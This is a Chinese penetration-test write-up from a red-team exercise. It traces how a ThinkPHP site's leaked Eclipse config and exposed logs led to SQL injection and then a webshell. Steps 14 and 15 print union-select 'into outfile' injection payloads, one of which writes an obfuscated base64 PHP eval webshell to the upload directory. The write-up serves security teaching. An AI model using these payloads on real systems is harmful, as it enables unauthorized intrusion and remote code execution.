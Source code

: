

# 奇安信攻防社区 -【Web 实战】记一次日志泄露到 GetShell

### 【Web 实战】记一次日志泄露到 GetShell

在一次攻防演练中，遇到这么一个站点 该站点基于 ThinkPHP 框架开发，且存在日志泄露，故事就从这个日志泄露开始了 信息收集 1. 老话说的好，渗透的本质就是信息收集，而信息搜集整理为后续的情报...

在一次攻防演练中，遇到这么一个站点

该站点基于 ThinkPHP 框架开发，且存在日志泄露，故事就从这个日志泄露开始了

## **信息收集**

1\. 老话说的好，渗透的本质就是信息收集，而信息搜集整理为后续的情报跟进提供了强大的保证，进入该站点发现只有三个功能点，逐个进行查看

![image.png](assets/1699406870-625a3c17e38253812627191a85aba4aa.png)

2\. 进入第一个功能点

。。。发现直接报 404，还有条狗看着家

![image.png](assets/1699406870-d6517a3c603f17a74f590af47c7da97e.png)

3\. 进入第二、三个功能点，发现是一个注册表单，第三个也为 404

![image.png](assets/1699406870-8db98920ca4226463d5f6f3e669b1fa9.png)

4\. 他写三个难道就只有三个功能嘛？我不信，开扫！

敏感文件这不就来了嘛

![image.png](assets/1699406870-0759c26ed58989ce0fc8ac0e76a97e32.png)

5.通过目录扫描发现该站点存在 eclipse 配置文件泄露

访问/.settings/org.eclipse.core.resources.prefs 获取到项目里的所有功能点

![image.png](assets/1699406870-8dad20f63e0a61720421be57a8156106.png)

org.eclipse.core.resources.prefs 解释

org.eclipse.core.resources.prefs 文件其实就是规定项目内的文件的编码用的。一般来说一个项目里的文件编码需要一致，特别是文件文本内容本身无法指示文件本身编码的（比较绕，XML 文件第一行能指示自身编码，CSS 也有这个能力但用得不多），尽量不要多种编码同时存在（最好在编码规范中禁止多重编码同时存在的现象发生）

[Eclipse 中.setting 目录下文件介绍](https://www.cnblogs.com/shihaiming/p/5803957.html)

6.该站点基于 ThinkPHP 框架开发，上工具跑出日志泄露

![image.png](assets/1699406870-d24f8a6db3056976a435e252d774eee2.png)

该工具下载地址：

[https://github.com/Lotus6/ThinkphpGUI](https://github.com/Lotus6/ThinkphpGUI)

## **进行测试**

挨个访问功能页面

有两个上传点，尝试上传

![image.png](assets/1699406870-3d312a5210dc627a260e9c2d3a21fc95.png)

发现 403 了...

![image.png](assets/1699406870-dd0fac7d313511505d521ee248de1a1d.png)

7.逛完一圈发现后台路径被改，文件上传 403，功能都改了或者删掉了

没头绪。。。

去翻翻日志吧。。。

喔唷~这是啥，这不是我前台测试时打的单引号嘛

日志中居然存在 Sql 执行语句

![image.png](assets/1699406870-7cdcc90f2f131e39b515adc0d2096a2b.png)

![image.png](assets/1699406870-5279461ab3b38f366ada6cd5fc8f7642.png)

8.Sql 语句记录到日志中，并发现 Sql 语句报错信息，语句闭合为 )

这时候就可以靠 ThinkPHP 日志泄露 + Sql 注入打一个组合拳了，以后谁还敢说 ThinkPHP 日志泄露没危害的！

![image.png](assets/1699406870-05faec0779d81397afb3f52e9d9e75cf.png)

![image.png](assets/1699406870-39b8c55907cdd66ff32c57e688d565fe.png)

9.开始着重对该功能进行测试

因为该功能点有验证码，便对其进行手测，成功获取到 MariaDB 数据的版本信息，与权限信息

![image.png](assets/1699406870-c5085969c13fb0c51d68f65483e49a0e.png)

![image.png](assets/1699406870-9bf4627705f7be9c574187d9c299a370.png)

10.开始读文件，可是没有物理路径咋办呢，那就找！

在目录扫描的时候存在一个 demo 目录，这不就有了吗

![image.png](assets/1699406870-e9d931c7537cdbb5803e70868c2fa219.png)

11.为啥要读文件呢，因为查权限就没那个必要，还浪费时间，能读就能写。

尝试读取 win.ini，跟本地 win.ini 做对比，发现成功读取到 win.ini

![image.png](assets/1699406870-97de087180853b9821907bf0f1d984ff.png)

12.可是接下来头又痛了，使用 order by 判断表列数不回显，且日志不记录 Sql 语句，有验证码又懒得构造盲注语句了。

![image.png](assets/1699406870-8be81f514ba003a3e77837db9a082f1f.png)  
那咋办？只能掏笨方法了

13\. 先用 union select 尝试写一下文件看看报什么错

![image.png](assets/1699406870-9cec4c6391dc2a288ad9668f71aa6465.png)

**The used SELECT statements have a different number of columns**

提示列数不同，也就是我写的列数不对，继续测试

14\. 直接手动判断列数写文件，最终在第 9 列成功写入文件  
从  
`1) union select 1 into outfile 'xxx\/reg\/upload\/1.php' --+` 

到  
`1) union select 1,2,3,4,5,6,7,8，'1' into outfile 'xxx\/reg\/upload\/1.php' --+`

![image.png](assets/1699406870-264e4ff0c3c58b1bc68c81d4f7841cb9.png)

![image.png](assets/1699406870-29259638a1a7fc8fd073a7d5901e7821.png)

## **写入 Webshell**

15.

构造语句：

`1) union select 1,2,3,4,5,6,7,8,from_base64('PD9waHAgZXZhbChnenVuY29tcHJlc3MoYmFzZTY0X2RlY29kZSgnZUp4TExVdk0wVkNKRC9BUERvbFdUODVOVVkvVnRBWUFSUVVHT0E9PScpKSk7Pz4=') into outfile 'xxxx\/reg\/upload\/7fa0b347c86e45522a1d6606731002c9.php' --+`

成功获取到 Webshell，到后面发现，那条安全狗根本就没用~.~

![image.png](assets/1699406870-b570181ea96a0589e719d4758398e82d.png)

当然不建议各位用这个笨方法，因为有些表的列数特别多  
好几十条，还是得先判断的  
结束，拿 Shell 收工！
